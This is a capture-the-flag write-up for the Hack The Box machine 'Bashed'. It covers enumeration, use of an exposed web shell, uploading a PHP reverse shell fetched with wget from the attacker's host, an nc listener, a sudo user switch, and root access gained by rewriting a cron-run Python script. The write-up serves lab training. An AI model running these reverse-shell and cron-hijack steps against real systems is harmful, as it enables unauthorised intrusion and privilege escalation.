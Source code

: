# BASHED

## ENUMERATION

Running the nmap scan we find only one port open

```
nmap 10.10.10.68 -p 80 -A
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-03 04:59 EDT
Nmap scan report for 10.10.10.68
Host is up (0.12s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
```

Finding the http port open I ran gobuster to find directories 

```
===============================================================
2021/08/03 05:04:51 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 290]
/.htaccess            (Status: 403) [Size: 295]
/.htpasswd            (Status: 403) [Size: 295]
/css                  (Status: 301) [Size: 308] [--> http://10.10.10.68/css/]
/dev                  (Status: 301) [Size: 308] [--> http://10.10.10.68/dev/]
/fonts                (Status: 301) [Size: 310] [--> http://10.10.10.68/fonts/]
/images               (Status: 301) [Size: 311] [--> http://10.10.10.68/images/]
/index.html           (Status: 200) [Size: 7743]                                
/js                   (Status: 301) [Size: 307] [--> http://10.10.10.68/js/]    
/php                  (Status: 301) [Size: 308] [--> http://10.10.10.68/php/]   
/server-status        (Status: 403) [Size: 299]                                 
/uploads              (Status: 301) [Size: 312] [--> http://10.10.10.68/uploads/]
```

Opening the /dev directory that we found through gobuster we find a interactive web shell 

## SHELL

Running the ```ls -la``` command in the ```/var/www/html``` directory we find that the ```uploads``` directory is the only one in which our user i.e. ```www-data``` has write permission. So that's where we can upload php reverse shell.

Downloading php reverse shell from <http://pentestmonkey.net/tools/web-shells/php-reverse-shell> on my machine and changing the ip to our system tunnel ip and the port to 4444

Running the command ```python -m SimpleHTTPServer``` to start a http server on our machine in the same directory as the php reverse shell we need to upload

![](https://github.com/Leo-2807/Writeups/edit/main/images/hackthebox/bashed2.png)

Now we run the command ```wget http://10.10.14.36:8000/php-reverse-shell.php``` to download the reverse shell on the machine

![](https://github.com/Leo-2807/Writeups/edit/main/images/hackthebox/bashed1.png)

Starting nc listerner ```nv -lvnp 4444``` on our system and then opening the url <http.//10.10.10.68/uploads/php-reverse-shell.php>

![](https://github.com/Leo-2807/Writeups/edit/main/images/hackthebox/bashed3.png)	

We get a shell which we stabilize with the command ```python -c 'import pty; pty.spawn("/bin/bash")'```

## WWW-DATA --> USER

Using the command ```sudo -l``` 

This means that we have permissions to become user scriptmanager without password

```
www-data@bashed:/$ sudo -u scriptmanager /bin/bash
sudo -u scriptmanager /bin/bash
scriptmanager@bashed:/$ whoami
whoami
scriptmanager
scriptmanager@bashed:/$ cd /home
cd /home
scriptmanager@bashed:/home$ ls 
ls 
arrexel  scriptmanager
scriptmanager@bashed:/home$ cd arrexel
cd arrexel
scriptmanager@bashed:/home/arrexel$ ls
ls
user.txt
scriptmanager@bashed:/home/arrexel$ cat user.txt
cat user.txt
2c281f318555dbc1b856957c7147bfc1
```
And we have our user flag

## USER --> ROOT

Using command ```ls -la``` in the / diectory we find only one directory writabble to out user ```scripts```
```
scriptmanager@bashed:/$ ls -la
ls -la
total 88
drwxr-xr-x  23 root          root           4096 Dec  4  2017 .
drwxr-xr-x  23 root          root           4096 Dec  4  2017 ..
drwxr-xr-x   2 root          root           4096 Dec  4  2017 bin
drwxr-xr-x   3 root          root           4096 Dec  4  2017 boot
drwxr-xr-x  19 root          root           4240 Aug  3 01:57 dev
drwxr-xr-x  89 root          root           4096 Dec  4  2017 etc
drwxr-xr-x   4 root          root           4096 Dec  4  2017 home
lrwxrwxrwx   1 root          root             32 Dec  4  2017 initrd.img -> boot/initrd.img-4.4.0-62-generic
drwxr-xr-x  19 root          root           4096 Dec  4  2017 lib
drwxr-xr-x   2 root          root           4096 Dec  4  2017 lib64
drwx------   2 root          root          16384 Dec  4  2017 lost+found
drwxr-xr-x   4 root          root           4096 Dec  4  2017 media
drwxr-xr-x   2 root          root           4096 Feb 15  2017 mnt
drwxr-xr-x   2 root          root           4096 Dec  4  2017 opt
dr-xr-xr-x 115 root          root              0 Aug  3 01:57 proc
drwx------   3 root          root           4096 Dec  4  2017 root
drwxr-xr-x  18 root          root            500 Aug  3 01:58 run
drwxr-xr-x   2 root          root           4096 Dec  4  2017 sbin
drwxrwxr--   2 scriptmanager scriptmanager  4096 Aug  3 02:57 scripts
drwxr-xr-x   2 root          root           4096 Feb 15  2017 srv
dr-xr-xr-x  13 root          root              0 Aug  3 02:16 sys
drwxrwxrwt  10 root          root           4096 Aug  3 03:03 tmp
drwxr-xr-x  10 root          root           4096 Dec  4  2017 usr
drwxr-xr-x  12 root          root           4096 Dec  4  2017 var
lrwxrwxrwx   1 root          root             29 Dec  4  2017 vmlinuz -> boot/vmlinuz-4.4.0-62-generic
```
In the scripts directory we find two files 
```
scriptmanager@bashed:/$ cd /scripts
cd /scripts
scriptmanager@bashed:/scripts$ ls
ls
test.py  test.txt
scriptmanager@bashed:/scripts$ cat test.py
cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
scriptmanager@bashed:/scripts$ cat test.txt
cat test.txt
testing 123!
```

using ```ls -la ``` command we see that the time of last execution of test.py is the current time which lead me to try it again after a few minutes and the time was again same as the current time 
This means that the script is being executed by crontab running in the background 

We use this to read root.txt
```
scriptmanager@bashed:/scripts$ echo 'import os' > test.py
echo 'import os' > test.py
scriptmanager@bashed:/scripts$ echo 'os.system("cat /root/root.txt > /tmp/readme.txt")' >> test.py
<ts$ echo 'os.system("cat /root/root.txt > /tmp/readme.txt")' >> test.py     
scriptmanager@bashed:/scripts$ cat test.py
cat test.py
import os
os.system("cat /root/root.txt > /tmp/readme.txt")
scriptmanager@bashed:/scripts$ cd /tmp
cd /tmp
scriptmanager@bashed:/tmp$ ls
ls
VMwareDnD
readme.txt
systemd-private-fb9d9649303741a0b3e5ee96e5c01d4d-systemd-timesyncd.service-8VKUb9
vmware-root
scriptmanager@bashed:/tmp$ cat readme.txt
```
And we have out root flag

